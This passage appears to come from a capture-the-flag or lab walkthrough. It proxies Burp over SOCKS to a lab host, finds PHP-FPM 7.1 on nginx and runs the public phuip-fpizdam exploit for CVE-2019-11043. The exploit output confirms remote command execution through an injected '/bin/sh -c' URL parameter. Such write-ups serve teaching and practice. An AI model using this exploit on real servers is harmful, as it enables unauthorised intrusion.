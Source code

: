 For better access in the browser to the pki host and to fully utilize burp we add the socks proxy to our burp configuration at the bottom of the `User options` tab.

[![burp_config](/img/static/burp_config.png)](/img/static/burp_config.png)

Selecting burp as our proxy we can now browse to the pki machine on port 80.

[![pki_web](/img/static/pki_web.png)](/img/static/pki_web.png)

Looking at the request in burp we see that it is running `PHP-FPM/7.1` on `nginx`.

[![burp_php_fpm](/img/static/burp_php_fpm.png)](/img/static/burp_php_fpm.png)

This comination might be vulnerable to [CVE-2019-11043](https://github.com/neex/phuip-fpizdam). To check for it we clone the github repository and build the go executable with `go build`. We also set the `http_proxy` environment variable in the current terminal window to proxy all the exploit traffic through socks.

```
$ export http_proxy="socks5://127.0.0.1:1080"
```

Running the exploit we see that it is indeed vulnerable, now we just need to get a reverse shell from the RCE.

```
$./phuip-fpizdam "http://192.168.254.3/index.php"
2021/06/20 09:04:37 Base status code is 200
2021/06/20 09:04:39 Status code 502 for qsl=1765, adding as a candidate
2021/06/20 09:04:40 The target is probably vulnerable. Possible QSLs: [1755 1760 1765]
2021/06/20 09:05:29 Attack params found: --qsl 1755 --pisos 39 --skip-detect
2021/06/20 09:05:29 Trying to set "session.auto_start=0"...
2021/06/20 09:05:31 Detect() returned attack params: --qsl 1755 --pisos 39 --skip-detect <-- REMEMBER THIS
2021/06/20 09:05:31 Performing attack using php.ini settings...
2021/06/20 09:05:31 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2021/06/20 09:05:31 Trying to cleanup /tmp/a...
2021/06/20 09:02:54 Done!
```
